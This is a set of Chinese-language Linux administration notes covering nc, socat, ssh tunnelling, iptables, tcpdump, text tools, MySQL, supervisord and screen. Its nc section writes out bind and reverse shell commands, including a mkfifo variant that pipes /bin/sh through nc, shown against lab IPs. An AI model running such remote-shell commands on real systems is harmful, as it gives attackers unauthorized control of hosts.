



# liunx 操作系统

## fresh install

### 开发环境

#### python

#### java

#### vscode

#### jnetbrains

#### zsh

#### 科学上网


## shell脚本编程指南


## 网络调试

### nc工具

#### chat server

nc发起的连接都是单例的，连接断开后，服务端与客户端都会退出。nc的 -l参数可以监听某个端口的数据

```
nc -l 8888
```

在另一台主机上连接即可

```
nc "ip address" 8888
```

两台主机算是建立了一条双向通道，可以互相发送数据，方式为全双工

#### 传输文件

传输文件的原理是输入输出重定向，充当服务器的主机将nc得到的数据重定向到文件中，充当客户端的主机将文件中的内容重定向到标准输入

#### 传输目录

传输目录使用了tar工具与输入输出重定向。tar -f参数指定-表示输出到标准输出，使用管道拼接到nc之前，表示将tar压缩的内容，发送到nc建立的通道中

```
tar -cvf - iptables | nc -l 8888 
nc 192.168.56.102 8888 | tar -xvf - 
```

#### 反弹shell

-e参数可以让nc在接收到连接后执行指定命令

```shell
nc -l 8888 -e "/bin/bash -i" #pc1
nc 192.168.56.102 8888		#pc2
```

这样，在pc2连接到pc1时可以得到一个pc1的shell运行环境，在pc1上执行shell命令

假设服务端nc不支持-e选项，那我们可以使用mkfifo命名管道来处理shell

```shell
mkfifo /tmp/temp_fifo # 在服务端创建命名管道
cat /tmp/temp_fifo | /bin/sh -i 2>&1 | nc -l 8888 > /tmp/temp_fifo 
```

管道数据用于输入输出，当cat遇到fifo文件末尾时会阻塞等待数据，temp_fifo文件中存放了nc接收过来的数据，即客户端发送过来的命令

```shell
nc 192.168.56.102 8888
```

也可以在服务端获取一个客户端的shell，称为反向shell

```shell
nc -l 8888 #pc1
nc 192.168.56.102 8888 -e /bin/bash # pc2
```

### 端口转发

#### socat网络数据重定向

socat也是用于在两个socket通信端点建立连接的工具，基本用法如下

```
socat [options] <address> <address>
```

在addr1与addr2之间建立数据通道，常用的addr描述方式

-   -,STDIN,STDOUT 表示标准输入输出，可以就用一个横杠代替。
-   /var/log/syslog 打开一个文件作为数据流，可以是任意路径。
-   TCP:: 建立一个 TCP 连接作为数据流，TCP 也可以替换为 UDP 。
-   TCP-LISTEN: 建立 一个 TCP 监听端口，TCP 也可以替换为 UDP。
-   EXEC: 执行一个程序作为数据流。

这些描述方式后面可以附加一些选项

如 fork，reuseaddr，stdin，stdout，ctty 等

##### 应用

读取文件

```shell
socat - filename
```

连接远程端口

```
socat - TCP:192.168.56.101:8888
```

来自标准输入的数据会被发送到该socket，从该socket读取到的数据会被发送到标准输出

监听一个端口

```
socat TCP-LISTEN:8888 -
```

转发tcp

```shell
socat -d -d TCP4-LISTEN:8000,bind=192.168.56.101,reuseaddr,fork TCP4:192.168.56.1:103:8888
#转发udp原理同上
```

做端口转发实验时，一定要具备端口转发条件，基础设施要配置好，防火墙打开对应端口，操作系统打开端口转发的选项，方法是在sysctl.conf中添加参数设置，随后执行sysctl -p

```shell
net.ipv4.ip_forward=1
```

#### ssh端口转发

##### 本地端口转发

将本地端口通过ssh连接，映射到远程主机的另一端口，访问本地映射端口，数据会被转发到远程映射端口。适用于将远程服务映射到本地，使其他机器访问本地某一地址时，访问到远程主机上的某一服务。

```shell
ssh -L local_hostname:local_port:remote_host:remote_port user@hostname
```

将发往本地local_hostname的local_port数据通过主机user@hostname转发到remote_host：remote_port

要求remote_host与主机user@hostname可以连通。比如主机A1，A2是本地主机，B1，B2是远程主机

a1<->a2,a1<->b1,b1<->b2。 remote host是相对于user@hostname的remote host。

在a2上访问b2上的服务，通过ssh本地端口转发可以实现，通过a1与b1之间的ssh连接，将远程主机b2的服务映射到本地主机a1，然后在a2上访问a1即可

```shell
ssh -L a1:a1_port:b2:b2_port user@b1    # execute on a1
```

将发往本地8888端口的请求映射到主机49.232.212.180的443端口

```shell
ssh -L 8888:localhost:443 ubuntu@49.232.212.180
```

使用nc在 远程主机监听443端口数据，使用nc连接本地8888端口，可以相互通信

```
#local
root@kali [04:15:24 AM] [~/Desktop] 
-> # nc localhost 8888 
test
lskdfja

# remote
ubuntu@VM-0-15-ubuntu [05:15:33 PM] [~] 
-> % sudo nc -l 443
test
lskdfja
```

实现了将远程服务映射到本地的功能

##### 远程端口转发

将远程端口，通过ssh连接，将远程主机上的某一服务映射到本地某一端口，从而实现其他计算机访问远程服务器的远程端口时，请求会被转发到本地,用于将本地服务映射到远程

```shell
ssh -R remote_server:remote_port:dest_server:dest_port user@hostname
```

remote_server是相对于ssh server的服务地址，dest_server相对于本地真正运行服务的地址，使发送到remote—server的请求都被转发到dest_server

sshd配置文件需要允许端口转发


常用的功能是将本地服务映射到远程。比如本地有个web服务，想临时放到公网允许别人访问，此时，remote server主机是我们的远程服务器，user@hostname也是我们的远程服务器，dest server是相对于本地的，运行着真实服务的主机。

比如

```shell
ssh -R 0.0.0.0:3389:localhost:8888 ubuntu@49.232.212.180
```

表示将发送到49.232.212.180 的3389的网络请求，转发到本地的8888端口。同样使用nc测试

> root@kali [04:42:07 AM] [~/Desktop] 
> -> # nc -l -p 8888
> ls

>root@kali [04:42:15 AM] [~] 
>-> # nc 49.232.212.180 3389
>ls

##### 动态端口转发

将本地端口接收到的请求通过ssh发送到远程主机，指定本地端口，并不指定远程端口，收到的请求信息会原封不动的发送到目标主机，由目标主机发送该请求，相当于一个代理服务器

```
ssh -D localhost:localport user@hostname
```

代理本地8888请求


代理前公网ip为


代理后公网ip为


ip数据来自cip.cc

### iptables

使用iptables中的SNAT与DNAT做端口转发，假设192.168.56.103:80（S1）运行有httpd服务，在192.168.56.102（G1）上配置端口转发，使发送到102上的请求被转发到103上，在G1上执行

```shell
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.56.103
iptables -t nat -A POSTROUTING -p tcp --dport 80 -j SNAT --to-source 192.168.56.101
```

在192.168.56.101上访问G1

curl 192.168.56.102:80

即可得到响应

### tcpdump

#### 常用参数

-   -A 将每个数据包的ascii打印出来，除去包头，经常用于显示网页数据
-   -c 抓取指定数量的数据包
-   -i 指定监听在哪一个网络设备
-   -e打印链路层信息
-   -r -w 分别用于从文件中读取数据包与将数据包写入文件
-   -l 行缓冲
-   -n 显示ip地址，而不是主机名
-   -s 数据包截断
-   -v -vv -vvv verbose mode
-   -X与-XX用来查看数据包ascii与hex内容

#### 过滤语句

基本组成

协议 + 方向 + 类型

类型主要有host，port，net，方向dst，src，协议 ether,ip,ip6,arp,rarp,tcp,udp

可以通过逻辑运算对条件进行组合

`or || and && not !`

#### 实例

抓取带有syn标记的数据包

```shell
sudo tcpdump -i eth0 'host 172.16.0.11 and host google.com and tcp[tcpflags]&tcp-syn!=0' -c 3 -nn
```

tcp数据包有如下标识字段

`tcp-fin, tcp-syn, tcp-rst, tcp-push, tcp-ack, tcp-urg`

抓取所有经过 eth1，目的地址是 192.168.1.254 或 192.168.1.200 端口是 80 的 TCP 数据

```
tcpdump -i eth1 '((tcp) and (port 80) and ((dst host 192.168.1.254) or (dst host 192.168.1.200)))'
```

抓取所有经过 eth1，目标 MAC 地址是 00:01:02:03:04:05 的 ICMP 数据

```
tcpdump -i eth1 '((icmp) and ((ether dst host 00:01:02:03:04:05)))'
```

抓取所有经过 eth1，目的网络是 192.168，但目的主机不是 192.168.1.200 的 TCP 数据

```
tcpdump -i eth1 '((tcp) and ((dst net 192.168) and (not dst host 192.168.1.200)))'
```

抓ack syn

```shell
tcpdump -i eth1 'tcp[tcpflags] & tcp-syn != 0 and tcp[tcpflags] & tcp-ack != 0'
```

## 文本处理

### find查找文件

文件查找


pathname指定了查找路径，后面中括号的内容指定了找到文件以后进行的操作，默认在当前文件夹下查找，并将找到的结果打印至标准输出

#### 动作

-print 打印至标准输出
 -exec 找到文件以后执行命令 find /home -type f -exec ls -l {} \;
 -ok同-exec，但是执行每条命令时都会让用户选择是否执行
 -execdir 

```
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print  -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit   -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;   -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ; 
```

#### 选项

- -name 按照文件名称查找文件
-  -perm 按照文件权限查找
-  -prune 不在当前指定的目录中查找
-  -user 按照文件属主查找
- -group 按照文件属组查找
-  -mtime -n or +n 文件更改时间
-  -newer file1 ！ file2 比文件file1新但是比文件file2旧
-  -type b|d|c|p|l|f 按文件类型
-  -follow 跟踪符号链接

#### 实例

查找普通文件并打印（默认）

```
find . -type f -execdir ls -l {} \;# 注意{}后面的空格不能忽略
```

按时间查找

- -atime +n/-n 存取时间+n代表n天以前，-n代表n天以内
-  -ctime
-  -mtime
-  -cmin
-  -amin
-  -mmin

```shell
 find /var/log/ -ctime +5 # 5日之前修改过的
 find /var/log/ -ctime -5 # 5日之内修改过的
```

查找etc目录下文件名包含passwd的文件并挑选出指定用户

```shell
sudo find /etc/ -name "pass*" -execdir grep "xiaozhi" {} \;
```

按权限查找当前目录下对任何人可执行的文件并打印详细信息

```shell
 find . -perm --5 -execdir ls -l {} \;
```

大小为0

```shell
find /var/log -size 0
```

用户组

```shell
find /var/log -group root
```

### xargs处理参数

xargs可以处理输入数据，经常用于命令行参数的格式化，可以将多行数据变为单行，单行数据变为多行，处理数据以供命令执行

-n 3将单行数据变为多行数据，且每行三个
 -I “string” 使用string替换每个输入数据，string可供后来命令使用
 -d “X” 重定义定界符 “X”

有用的选项-I，可以用在，某些指令不能操作输入流，只能通过参数给出的情况。比如想找出某些进程，将符合条件的进程通过kill强制退出。将进程id直接通过管道发送给kill发现操作不了


使用xargs


### sort排序

### uniq消除重复行

>With no options, matching lines are merged to the first occurrence.
>
>Mandatory arguments to long options are mandatory for short options too.
>  -c, --count           prefix lines by the number of occurrences
>  -d, --repeated        only print duplicate lines, one for each group
>  -D                    print all duplicate lines
>      --all-repeated[=METHOD]  like -D, but allow separating groups
>                                 with an empty line;
>                                 METHOD={none(default),prepend,separate}
>  -f, --skip-fields=N   avoid comparing the first N fields
>      --group[=METHOD]  show all items, separating groups with an empty line;
>                          METHOD={separate(default),prepend,append,both}
>  -i, --ignore-case     ignore differences in case when comparing
>  -s, --skip-chars=N    avoid comparing the first N characters
>  -u, --unique          only print unique lines
>  -z, --zero-terminated     line delimiter is NUL, not newline
>  -w, --check-chars=N   compare no more than N characters in lines
>      --help     display this help and exit
>      --version  output version information and exit
>
>A field is a run of blanks (usually spaces and/or TABs), then non-blank
>characters.  Fields are skipped before chars.

### cut分割行


### paste组合行

>With no FILE, or when FILE is -, read standard input.
>
>Mandatory arguments to long options are mandatory for short options too.
>  -d, --delimiters=LIST   reuse characters from LIST instead of TABs
>  -s, --serial            paste one file at a time instead of in parallel
>  -z, --zero-terminated    line delimiter is NUL, not newline
>      --help     display this help and exit
>      --version  output version information and exit

### wc统计文件

>With no FILE, or when FILE is -, read standard input.
>
>The options below may be used to select which counts are printed, always in
>the following order: newline, word, character, byte, maximum line length.
>  -c, --bytes            print the byte counts
>  -m, --chars            print the character counts
>  -l, --lines            print the newline counts
>      --files0-from=F    read input from the files specified by
>                           NUL-terminated names in file F;
>                           If F is - then read names from standard input
>  -L, --max-line-length  print the maximum display width
>  -w, --words            print the word counts
>      --help     display this help and exit
>      --version  output version information and exit

### awk文本处理

awk用于在命令行下对文本数据进行扫描和处理。逐行扫描文件，从第一行到最后一行，寻找匹配特定模式的行，在这些行上进行用户操作

#### 指令模式

pattern {action}
 begin,end模式分别代表处理第一行之前和处理最后一行之后进行的操作

#### 常见参数

-F fs 指定域分隔符fs
 -v var=val 处理之前设置一个变量var
 -f file 从文本中读取awk指令

#### 内置变量

- FILENAME   当前处理的文件名称
-  FNR        当前输入文档的当前记录编号
- NR         输入流的当前记录编号
-  FS         字段分隔符
-  OFS        输出字段分隔符
-  ORS        输出记录分隔符
-  RS         输入记录分隔符c

#### 操作符

<,>,<=,>=,!~
 !~表示反向匹配

内置函数

gsub（r，s）    在整个$0中用s替换r
 index（s，t）    返回s中第一个t的位置
 length（s）     返回s的长度
 match（s，r）   测试s是否包含匹配r的字符串
 split（s，a，fs） 在fs上将s分解为数组a
 substr（s，p）   返回s从p开始的后缀部分
 printf          格式化输出 

#### 实例

##### 模式匹配

查找第一列匹配root，第八列等于S的行

```shell
awk '$1 ~ /root/ && $8=="S"'  /tmp/ps.txt
```


匹配包含ubuntu的行

```shell
awk '/ubuntu/' /tmp/ps.txt
```


匹配或

```shell
awk '$8 ~ /SN|Ss/' /tmp/ps.txt
```


取反

```shell
awk '  $8  !~ /SN|Ss/' /tmp/ps.txt
```


##### 拆分文件

按照用户名将不同进程信息输出到文件

```shell
 awk 'NR!=1{print > $1}' ps.txt
```


##### 条件判断

split.awk

```shell
#!/usr/bin/awk
$NR!=1
{
        if($1 ~ /root/){
                print > "root.txt";
        }else if($1 ~ /ubuntu/){
                print > "ubuntu.txt";
        }else{
                print > "other.txt";
        }
}
bash: awk -f split.awk ps.txt
```


##### 统计信息

当前目录下文件大小综合

```shell
ls -l |awk '{sum+=$5;}END{print sum;}'
```



长度大于90的行

```shell
awk 'length>90' ps.txt
```

查看当前连接ip地址

```shell
netstat -ntu |awk 'NR!=1{print $5;}' | cut -d: -f 1 | sort -n | uniq
```


### grep

grep是一种文本搜索工具，以行为处理单位，搜索匹配的文本

-c      计算次数
 -I      忽略大小写
 -n     输出行号
 -v      反向选择
 -r      递归查找


[]中匹配一个字符，^字符加在[]里表示反向选择
 ^匹配行首，$匹配行尾
 .代表任意字符
 *代表重复前一个字符0次或任意多次
 +代表重复前一个字符一次或多次
 ?代表重复一次或0次

egrep可以使用扩展正则表达式，相当于grep -e

-A n 表示after n，输出后n行，B n表示fefore，输出前n行

-C n 表示context，输出上下文n行


### sed

address{
 command1
 command2
 }
 a append 追加
 d delete 删除
 s substitution 替换

#### 实例

第二行后添加文本

```shell
sed '2a test' repeat.txt
```

第五行前添加文本

```shell
sed '5i test' repeat.txt
```

将所有test替换为test2

```shell
sed 's/test/test2/g' repeat.txt
```

匹配所有包含test的行，在其后添加文本

```shell
sed '/test/a test2' repeat.txt
```

删除所有以test开头的行

```shell
sed '/test/d' repeat.txt
```

删除空白行

```shell
sed '/^$/d' repeat.txt
```

匹配某一行

```shell
sed '3a test' repeat.txt
```

从某行开始，每隔2行选择一行

```shell
sed '1~2 a test' repeat.txt
```

/regex/匹配正则表达式

addr,+n表示匹配该行后面的n行内容

```shell
sed '3,+2d' repeat.txt
```


## 常见服务管理

### nfs


### mysql

mysql是典型的关系型数据库管理系统，数据库中包含多张数据表，数据以记录的形式存在于数据表中，一条记录中包含若干字段，每个字段都有特定的数据类型。不同的表可能有一定的联系。从数据库中查询的语言被称为sql，数据库管理系统通过sql从数据库中检索数据。sql语法此处不再说明。mariadb是mysql的一个开源分支，自mysql闭源之后，经过开源社区的努力，mariadb也成为了一个功能十分完善可以替代mysql的数据库软件包，操作基本类似

安装mariadb使用linux包管理工具即可。配置文件位于


系统会为我们创建mysql用户


使用mysql_install_db初始化数据库，在linux环境下，使用该命令初始化数据库时，会创建空白数据库test，同时在mysql数据库中创建user表。


mysql.user表中root用户为默认管理员用户，未设置密码，匿名账户同样没有密码，可能导致安全问题
使用mysql_secure_installation设置初始选项，设置是否允许root远程登陆，是否删除test数据库，设置root密码等选项。设置root密码后，启动mariadb，可以登陆mysql服务
`mysql -h 127.0.0.1 -u root -p`随后键入密码即可登陆
如果想更改启动参数，可以修改my.cnf文件，添加需要的选项

#### mysqladmin

创建数据库

```shell
mysqladmin create testdb -p
```

删除数据库

```shell
mysqladmin drop testdb -p
```


#### mysqldump

备份所有数据库

```shell
mysqldump -u root -p --all-database > all_data.bak
```

备份某个数据库

```shell
mysqldump -u root -p --database mysql > mysql.bak
```

备份mysql中的user表

```shell
mysqldump -u root -p mysql user > user.bak
```

还原所有数据库

```shell
mysqldump -u root -p < all_data.bak
```

还原mysql数据库

```shell
mysqldump -u root -p mysql < mysql.bak
```

还原某个表

```shell
mysqldump -u root -p mysql < user.bak
```


#### 权限

mysql数据库安全包括密码安全性、访问控制安全、数据安全（配置相关文件）。mysql的用户账户密码权限信息保存在mysql数据库中的user表中，可以使用mysqladmin或sql语句更改、添加、删除user表中记录达到账户管理功能。以下多个实例中看账户管理设置
使用grant命令创建用户并授权
`grant all on testdb.* to 'xiaozhi'@'localhost' identified by 'password';`
创建admin用户，授予管理数据库权限，无密码本机登陆
`grant reload,process on *.* to 'admin'@'localhost';`
创建inspect用户，授予testdb数据库中所有数据表的权限，该用户可以从任何主机查询数据
`grant all on testdb.* to 'inspect'@'%' identified by 'password';`

使用show grants查看用户信息

drop user .....删除用户

#### 日志

错误日志，配置文件中默认开启了错误日志，并且给出了错误日志文件路径，当mysql进程出错时，错误日志会记录错误信息


在mysql中使用如下选项查看mysql日志文件是否开启和日志文件位置



查询日志中记录了数据库每条查询信息的sql语句及其响应，有助于我们做sql注入分析，性能调试。一般线上应用不开启，因为随着查询数量增加，日志文件增加十分迅速，给服务器带来负担
查看mysql查询日志配置


临时开启查询日志，当重启mysql时，该设置失效


当查询指令执行之间超过一定时间时，记录该查询信息，称为慢查询日志


## 远程服务管理

### supervisord

Supervisor是用Python开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台daemon，并监控进程状态，异常退出时能自动重启。它是通过fork/exec的方式把这些被管理的进程当作supervisor的子进程来启动，这样只要在supervisor的配置文件中，把要管理的进程的可执行文件的路径写进去即可。也实现当子进程挂掉的时候，父进程可以准确获取子进程挂掉的信息的，可以选择是否自己启动和报警。supervisor还提供了一个功能，可以为supervisord或者每个子进程，设置一个非root的user，这个user就可以管理它对应的进程。

#### 安装

使用pip或包管理工具，包名为supervisor

```shell
pip install supervisor
```

配置文件位于

/etc/supervisor



#### 配置

在supervisord.conf最后包含了其他目录中的配置文件，可以将各个服务放入不同的配置文件中，分别管理

配置示例

```ini
#项目名
[program:blog]
#脚本目录
directory=/opt/bin
#脚本执行命令
command=/usr/bin/python /opt/bin/test.py

#supervisor启动的时候是否随着同时启动，默认True
autostart=true
#当程序exit的时候，这个program不会自动重启,默认unexpected，设置子进程挂掉后自动重启的情况，有三个选项，false,unexpected和true。如果为false的时候，无论什么情况下，都不会被重新启动，如果为unexpected，只有当进程的退出码不在下面的exitcodes里面定义的
autorestart=false
#这个选项是子进程启动多少秒之后，此时状态如果是running，则我们认为启动成功了。默认值为1
startsecs=1

#脚本运行的用户身份 
user = test

#日志输出 
stderr_logfile=/tmp/blog_stderr.log 
stdout_logfile=/tmp/blog_stdout.log 
#把stderr重定向到stdout，默认 false
redirect_stderr = true
#stdout日志文件大小，默认 50MB
stdout_logfile_maxbytes = 20MB
#stdout日志文件备份数
stdout_logfile_backups = 20
```


#### 配置python服务

有时候我们会碰到线上python服务使用虚拟环境的情况，我们在编写command选项的时候，python解释器描述为虚拟环境中python解释器的完全路径就可以，就可以使用到对应的虚拟环境。

#### 指令

启动supervisord

```shell
supervisord -c /etc/supervisor/supervisord.conf
# 或
systemctl start supervisord
```

supervisorctl可以进入supervisor控制台，查看，管理进程

### screen

Screen是一个可以在多个进程之间多路复用一个物理终端的全屏窗口管理器。Screen中有会话的概念，用户可以在一个会话中创建多个screen窗口，在每一个screen窗口中就像操作一个真实的telnet/SSH连接窗口那样。

#### 基本功能

##### **会话恢复**

只要Screen本身没有终止，在其内部运行的会话都可以恢复。这一点对于远程登录的用户特别有用——即使网络连接中断，用户也不会失去对已经打开的命令行会话的控制。只要再次登录到主机上执行**screen -r**就可以恢复会话的运行。同样在暂时离开的时候，也可以执行分离命令**detach**，在保证里面的程序正常运行的情况下让Screen挂起（切换到后台）。这一点和图形界面下的VNC很相似。

##### **多窗口**

在Screen环境下，所有的会话都独立的运行，并拥有各自的编号、输入、输出和窗口缓存。用户可以通过快捷键在不同的窗口下切换，并可以自由的重定向各个窗口的输入和输出。Screen实现了基本的文本操作，如复制粘贴等；还提供了类似滚动条的功能，可以查看窗口状况的历史记录。窗口还可以被分区和命名，还可以监视后台窗口的活动。

##### **会话共享**

Screen可以让一个或多个用户从不同终端多次登录一个会话，并共享会话的所有特性（比如可以看到完全相同的输出）。它同时提供了窗口访问权限的机制，可以对窗口进行密码保护

#### 语法

```
screen [-AmRvx -ls -wipe][-d <作业名称>][-h <行数>][-r <作业名称>][-s ][-S <作业名称>]
```

**参数说明**

-A 　将所有的视窗都调整为目前终端机的大小。
-d <作业名称> 　将指定的screen作业离线。
-h <行数> 　指定视窗的缓冲区行数。
-m 　即使目前已在作业中的screen作业，仍强制建立新的screen作业。
-r <作业名称> 　恢复离线的screen作业。
-R 　先试图恢复离线的作业。若找不到离线的作业，即建立新的screen作业。
-s 　指定建立新视窗时，所要执行的shell。
-S <作业名称> 　指定screen作业的名称。
-v 　显示版本信息。
-x 　恢复之前离线的screen作业。
-ls或--list 　显示目前所有的screen作业。
-wipe 　检查目前所有的screen作业，并删除已经无法使用的screen作业。


screen -S yourname -> 新建一个叫yourname的session
screen -ls -> 列出当前所有的session
screen -r yourname -> 回到yourname这个session
screen -d yourname -> 远程detach某个session
screen -d -r yourname -> 结束当前session并回到yourname这个session

**在每个screen session 下，所有命令都以 ctrl+a(C-a) 开始。**
C-a ? -> 显示所有键绑定信息
C-a c -> 创建一个新的运行shell的窗口并切换到该窗口
C-a n -> Next，切换到下一个 window 
C-a p -> Previous，切换到前一个 window 
C-a 0..9 -> 切换到第 0..9 个 window
Ctrl+a [Space] -> 由视窗0循序切换到视窗9
C-a C-a -> 在两个最近使用的 window 间切换 
C-a x -> 锁住当前的 window，需用用户密码解锁
C-a d -> detach，暂时离开当前session，将目前的 screen session (可能含有多个 windows) 丢到后台执行，并会回到还没进 screen 时的状态，此时在 screen session 里，每个 window 内运行的 process (无论是前台/后台)都在继续执行，即使 logout 也不影响。 
C-a z -> 把当前session放到后台执行，用 shell 的 fg 命令则可回去。
C-a w -> 显示所有窗口列表
C-a t -> Time，显示当前时间，和系统的 load 
C-a k -> kill window，强行关闭当前的 window
C-a [ -> 进入 copy mode，在 copy mode 下可以回滚、搜索、复制就像用使用 vi 一样
  C-b Backward，PageUp 
  C-f Forward，PageDown 
  H(大写) High，将光标移至左上角 
  L Low，将光标移至左下角 
  0 移到行首 
  $ 行末 
  w forward one word，以字为单位往前移 
  b backward one word，以字为单位往后移 
  Space 第一次按为标记区起点，第二次按为终点 
  Esc 结束 copy mode 
C-a ] -> Paste，把刚刚在 copy mode 选定的内容贴上


参考博客[screen使用详解](https://www.cnblogs.com/mchina/archive/2013/01/30/2880680.html)

### 开机自启脚本


## 性能调优


## 常用命令工具

### wget下载文件

### proxychains代理


## 有趣的工具

#### cmatrix矩阵

```
cmatrix
```


#### xeyes眼睛

```
xeyes
```


#### toilet艺术字

```
toilet
```


#### oneko追随指针的小猫

```
oneko
```


#### sl跑火车

```
sl
```


#### cowsay,lolcat,fortune 

cowsay可以指定图案显示指定文字


还可以指定动物


fortune显示名人名言,lolcat可以使输出结果变为彩色

```
fortune | cowsay -f dragon | lolcat
```


#### pv使输出模拟打字机


## bugs

### wine运行时指定中文环境

```shell
env LANG=zh_CN.utf8 wine
```

pyqt5中文输入

```
cp /usr/lib/x86_64-linux-gnu/qt5/plugins/platforminputcontexts/libfcitxplatforminputcontextplugin.so ~/.pyenv/versions/QT5_envs/lib/python3.7/site-packages/PyQt5/Qt/plugins/platforminputcontexts/
```

查看nvidia显卡驱动版本

```
sudo dpkg --list | grep nvidia-*	
```

查看cuda版本

```
nvcc --version
```

http://ai.stanford.edu/~amaas/data/sentiment/aclImdb_v1.tar.gz